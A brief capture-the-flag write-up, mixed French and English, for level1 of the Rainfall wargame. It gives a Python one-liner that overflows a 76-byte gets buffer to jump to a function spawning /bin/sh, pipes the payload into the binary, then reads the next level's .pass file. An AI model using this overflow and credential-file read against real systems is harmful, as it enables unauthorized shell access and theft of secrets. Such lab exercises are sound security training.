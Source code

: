 dans la vm rainfall en ssh

on voit un buffer de 76 et un appel de gets ensuite,
on trouve une fonction run() qui execute system("/bin/sh")

elle est a l'addresse 0x08048444

on prepare donc un notre string en raw bytes dans un fichier
python -c "print 'A' * 76 + \"\x44\x84\x04\x08\""  > /tmp/input.txt

cat /tmp/input.txt - | ./level1

this send the content of input.txt in the standard output and open stdin in level1
so we get the shell

then try cat /home/user/level2/.pass
